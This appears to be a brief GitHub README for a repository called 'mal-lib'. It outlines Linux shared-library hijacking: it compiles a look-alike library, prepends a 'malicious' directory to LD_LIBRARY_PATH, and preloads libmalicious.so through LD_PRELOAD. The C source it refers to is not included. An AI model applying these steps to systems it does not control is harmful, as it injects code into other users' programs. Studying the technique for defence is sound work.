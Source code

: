 # mal-lib
LD_hijacking and if you want to add a directory /path/to/malicious/lib to the search path, or place mal.so in the folder where the program searches for libraries.
```
> ldd /path/to/program
> gcc -fPIC -shared -o {libRealName}.so ld_hijack.c
> export LD_LIBRARY_PATH=/path/to/malicious/lib:$LD_LIBRARY_PATH
> # run /path/to/program
```
```
> gcc -shared -fPIC -o libmalicious.so {name}.c
> LD_PRELOAD=./libmalicious.so ls
```
